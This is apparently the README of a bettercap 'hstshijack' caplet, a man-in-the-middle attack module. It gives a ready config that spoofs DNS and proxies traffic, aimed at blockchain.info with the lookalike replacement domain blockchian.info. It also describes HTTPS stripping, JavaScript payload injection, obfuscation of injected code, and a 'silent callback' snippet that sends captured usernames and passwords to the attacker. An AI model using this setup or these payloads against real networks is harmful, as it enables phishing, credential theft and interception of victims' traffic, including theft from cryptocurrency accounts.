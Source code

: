 <p align="center">
  <img width="420px" src="https://cdn.rawgit.com/yungtravla/cdn/ccdc3b8d/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
set hstshijack.log             caplets/hstshijack/ssl.log
set hstshijack.payload         caplets/hstshijack/payloads/hstshijack-payload.js
set hstshijack.ignore          *
set hstshijack.targets         blockchain.info,*.blockchain.info
set hstshijack.replacements    blockchian.info,*.blockchian.info
#set hstshijack.blockscripts    domain.com,*.domain.com
set hstshijack.custompayloads  *:caplets/hstshijack/payloads/sslstrip.js

set http.proxy.script  caplets/hstshijack/hstshijack.js
#set net.sniff.output   hstshijack0001.pcap
set net.sniff.verbose  false
set dns.spoof.all      true
net.sniff    on
dns.spoof    on
http.proxy   on
```

### Core payload

This module injects HTTP documents with a JS payload (<a href="./payloads/hstshijack-payload.js">**hstshijack-payload.js**</a>). This payload communicates with the bettercap sniffer, revealing all URLs that were discovered on the injected document once it finished loading.

This is done in separate and asynchronous requests so that bettercap can adjust the host and path for each request, and then send a HEAD request in order to learn each host's response to a HTTP request for the given path.

### SSL log

If a host responds with a HTTPS redirect, the module saves this host in the SSL log, and bettercap will from then on spoof SSL connections for this host when possible.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every hostname you assign to `hstshijack.targets` you must assign a replacement domain to the `hstshijack.replacements` variable.

Example:

```sh
set hstshijack.targets       blockchain.info,*.blockchain.info
set hstshijack.replacements  blockchian.info,*.blockchian.info
```

You can try to make them as unnoticeable or obvious as you like, but your options are limited here.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript on hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### Custom payloads

You can also inject your own JavaScript payload(s) into HTML & JS files from targeted hosts by assigning them to the `hstshijack.custompayloads` variable.

Example:

```sh
hstshijack.custompayloads *:caplets/hstshijack/payloads/sslstrip.js,google.com:caplets/hstshijack/payloads/google.js,*.google.com:caplets/hstshijack/payloads/google.js
```

Once the payload is injected into a page, you can technically phish any data unless the client navigates to a URL that either has strict transport security rules enforced by their browser, or the URL was not stripped due to JavaScript security.

<a href="./payloads/sslstrip.js">**sslstrip.js**</a> is included, which strips the `s` from all `https://` instances in `<a href="...` tags.

### Obfuscation

You can write custom payloads that are automatically obfuscated by the module.

Basically every word that was found beginning with `obf_` will be obfuscated.


Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Silent callbacks

You can write custom payloads that communicate with bettercap without alerting the host.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```

The following POST request will be sniffed by bettercap, but not proxied. 

As soon as bettercap receives a callback, any request from the client for a spoofed hostname will immediately be redirected to the legitimate hostname, and any request for that targeted hostname will no longer be spoofed for this particular client.

Note: Any instance of `obf_path_callback` will be replaced with the callback path that bettercap listens for (this can save time when writing JavaScript payloads).
